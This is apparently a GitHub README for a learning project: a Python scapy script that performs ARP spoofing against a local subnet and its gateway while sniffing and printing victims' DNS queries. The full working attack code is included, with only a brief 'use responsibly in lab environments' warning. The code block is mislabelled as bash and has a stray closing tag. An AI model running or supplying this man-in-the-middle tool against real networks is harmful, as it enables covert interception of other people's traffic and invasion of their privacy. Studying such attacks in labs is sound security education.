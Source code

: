 # 🐍 Packet Sniffing & Spoofing Tool in Python
This script is a simplified network spoofing tool built with **Python 3**, using the `scapy`, `logging`, and `threading` libraries.  
It simulates behavior similar to **Bettercap**, allowing for **ARP spoofing** and **DNS sniffing** across a local network.
---
## 📚 What I Learned

- How to manipulate network packets using Scapy.
- ARP spoofing logic and redirection.
- DNS query interception and extraction.
- Multithreading to run ARP spoofing alongside DNS sniffing.
- Real-world applications of network attacks for defensive security awareness.

---

## ⚙️ How It Works

1. **ARP Spoofing**: Sends fake ARP replies to trick the target and gateway into sending packets to the attacker’s machine.
2. **DNS Sniffing**: Captures UDP DNS requests (port 53) and prints the source IP and requested domain.

---

## 🧠 Example Output
### 📸 Demo Screenshots
<img width="414" alt="Screenshot 2025-04-24 at 12 24 56 AM" src="https://github.com/user-attachments/assets/9ef96607-abcf-474e-b7b5-d7b9c05d6875" />

---

## 🧵 Requirements

Install the required library with:

pip install scapy


### 🚧 Warning:
Use responsibly and only in legal, lab environments.

```bash

import logging
from scapy.all import ARP , send , sniff
from scapy.layers.dns import DNS , DNSQR , IP 
import threading
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def arp_spoof(target_ip , spoof_ip):
    packet = ARP(op=2, pdst=target_ip , hwdst= "ff:ff:ff:ff:ff:ff" , psrc=spoof_ip)
    send(packet , verbose = False)
    
def dns_packet(packet):
    if packet.haslayer(DNS) and packet.getlayer(DNS).qr == 0 :
        ip_src = packet [IP].src
        dns_query = packet[DNSQR].qname.decode()
        print (ip_src , dns_query)
    
def start_arp(target_ip, gateway_ip):
    while True:
        arp_spoof(target_ip, gateway_ip)
        arp_spoof (gateway_ip, target_ip)
    

target_ip = "192.168.1.0/24"
gateway_ip = "192.168.1.1"

threading.Thread(target=start_arp, args=(target_ip, gateway_ip)).start()

print ("[+] Network Trafffic : 2025 ")
print ("-"*40)
print (f"{'IP Address': <15} \t {'DNS Query' : <30}")
print ("-"*40)
sniff(filter="udp port 53" , prn=dns_packet, store=0)
</details>

#👨‍💻 Author

#Yanis Deriche — Cybersecurity & Network Security Enthusiast | Practical Labs + Projects 

#Connect with me on LinkedIn
#Explore more of my work on GitHub
